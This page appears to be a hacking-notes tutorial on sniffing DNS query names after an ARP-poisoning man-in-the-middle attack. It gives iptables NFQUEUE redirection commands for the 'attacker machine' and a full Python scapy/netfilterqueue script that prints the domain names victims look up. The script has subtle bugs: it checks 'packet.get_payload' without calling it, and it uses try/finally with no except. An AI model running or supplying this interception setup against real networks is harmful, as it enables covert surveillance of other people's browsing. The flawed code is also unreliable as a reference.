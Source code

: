 ```yaml
---
title: "DNS request sniffing"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can sniff the DNS Question Record's QNAME field.  
I am using netfilterqueue here, but it could be done without it as well because we are not modifying any packets on the fly, we are only inspecting.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jellepelle.github.io/doc_the_hacks/arp/arp_cache_poisoning/

```sh
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```sh
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

Full code:  


```python
import netfilterqueue
import scapy.all as scapy


def process_packet(packet):
    if packet.get_payload:
        try: scapy_packet = scapy.IP(packet.get_payload())
        finally:

            if scapy_packet:
                if scapy_packet.haslayer(scapy.DNSQR):
                    qname = scapy_packet[scapy.DNSQR].qname
                    print(qname)

    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
